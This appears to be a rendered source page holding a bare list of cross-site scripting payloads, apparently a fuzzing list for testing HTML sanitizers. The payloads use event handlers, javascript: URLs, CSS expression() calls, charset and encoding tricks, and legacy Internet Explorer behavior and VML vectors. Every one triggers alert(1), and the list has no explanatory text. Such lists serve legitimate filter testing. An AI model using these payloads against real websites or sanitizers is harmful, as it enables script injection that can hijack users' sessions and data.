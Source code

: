       <img src=x onerror=\x00"javascript:alert(1)">
      <a href=java&#1&#2&#3&#4&#5&#6&#7&#8&#11&#12script:javascript:alert(1)>XXX</a>
      <img src="x` `<script>javascript:alert(1)</script>"` `>
      <img src onerror /" '"= alt=javascript:alert(1)//">
      <title onpropertychange=javascript:alert(1)></title><title title=>
      <a href=http://foo.bar/#x=`y></a><img alt="`><img src=x:x onerror=javascript:alert(1)></a>">
      <!--[if]><script>javascript:alert(1)</script -->
      <!--[if<img src=x onerror=javascript:alert(1)//]> -->
      <script src="/\%(jscript)s"></script>
      <script src="\\%(jscript)s"></script>
      <object id="x" classid="clsid:CB927D12-4FF7-4a9e-A169-56E4B8A75598"></object> <object classid="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" onqt_error="javascript:alert(1)" style="behavior:url(#x);"><param name=postdomevents /></object>
      <a style="-o-link:'javascript:javascript:alert(1)';-o-link-source:current">X
      <style>p[foo=bar{}*{-o-link:'javascript:javascript:alert(1)'}{}*{-o-link-source:current}]{color:red};</style>
      <link rel=stylesheet href=data:,*%7bx:expression(javascript:alert(1))%7d
      <style>@import "data:,*%7bx:expression(javascript:alert(1))%7D";</style>
      <a style="pointer-events:none;position:absolute;"><a style="position:absolute;" onclick="javascript:alert(1);">XXX</a></a><a href="javascript:javascript:alert(1)">XXX</a>
      <style>*[{}@import'%(css)s?]</style>X
      <div style="font-family:'foo&#10;;color:red;';">XXX
      <div style="font-family:foo}color=red;">XXX
      <// style=x:expression\28javascript:alert(1)\29>
      <style>*{x:ｅｘｐｒｅｓｓｉｏｎ(javascript:alert(1))}</style>
      <div style=content:url(%(svg)s)></div>
      <div style="list-style:url(http://foo.f)\20url(javascript:javascript:alert(1));">X
      <div id=d><div style="font-family:'sans\27\3B color\3Ared\3B'">X</div></div> <script>with(document.getElementById("d"))innerHTML=innerHTML</script>
      <div style="background:url(/f#&#127;oo/;color:red/*/foo.jpg);">X
      <div style="font-family:foo{bar;background:url(http://foo.f/oo};color:red/*/foo.jpg);">X
      <div id="x">XXX</div> <style>  #x{font-family:foo[bar;color:green;}  #y];color:red;{}  </style>
      <x style="background:url('x&#1;;color:red;/*')">XXX</x>
      <script>({set/**/$($){_/**/setter=$,_=javascript:alert(1)}}).$=eval</script>
      <script>({0:#0=eval/#0#/#0#(javascript:alert(1))})</script>
      <script>ReferenceError.prototype.__defineGetter__('name', function(){javascript:alert(1)}),x</script>
      <script>Object.__noSuchMethod__ = Function,[{}][0].constructor._('javascript:alert(1)')()</script>
      <meta charset="x-imap4-modified-utf7">&ADz&AGn&AG0&AEf&ACA&AHM&AHI&AGO&AD0&AGn&ACA&AG8Abg&AGUAcgByAG8AcgA9AGEAbABlAHIAdAAoADEAKQ&ACAAPABi
      <meta charset="x-imap4-modified-utf7">&<script&S1&TS&1>alert&A7&(1)&R&UA;&&<&A9&11/script&X&>
      <meta charset="mac-farsi">¼script¾javascript:alert(1)¼/script¾
      X<x style=`behavior:url(#default#time2)` onbegin=`javascript:alert(1)` >
      1<set/xmlns=`urn:schemas-microsoft-com:time` style=`beh&#x41vior:url(#default#time2)` attributename=`innerhtml` to=`&lt;img/src=&quot;x&quot;onerror=javascript:alert(1)&gt;`>
      1<animate/xmlns=urn:schemas-microsoft-com:time style=behavior:url(#default#time2) attributename=innerhtml values=&lt;img/src=&quot;.&quot;onerror=javascript:alert(1)&gt;>
      <vmlframe xmlns=urn:schemas-microsoft-com:vml style=behavior:url(#default#vml);position:absolute;width:100%;height:100% src=%(vml)s#xss></vmlframe>
      1<a href=#><line xmlns=urn:schemas-microsoft-com:vml style=behavior:url(#default#vml);position:absolute href=javascript:javascript:alert(1) strokecolor=white strokeweight=1000px from=0 to=1000 /></a>
      <a style="behavior:url(#default#AnchorClick);" folder="javascript:javascript:alert(1)">XXX</a>
      <x style="behavior:url(%(sct)s)">
      <xml id="xss" src="%(htc)s"></xml> <label dataformatas="html" datasrc="#xss" datafld="payload"></label>
      <event-source src="%(event)s" onload="javascript:alert(1)">
      <a href="javascript:javascript:alert(1)"><event-source src="data:application/x-dom-event-stream,Event:click%0Adata:XXX%0A%0A">
      <div id="x">x</div> <xml:namespace prefix="t"> <import namespace="t" implementation="#default#time2"> <t:set attributeName="innerHTML" targetElement="x" to="&lt;img&#11;src=x:x&#11;onerror&#11;=javascript:alert(1)&gt;">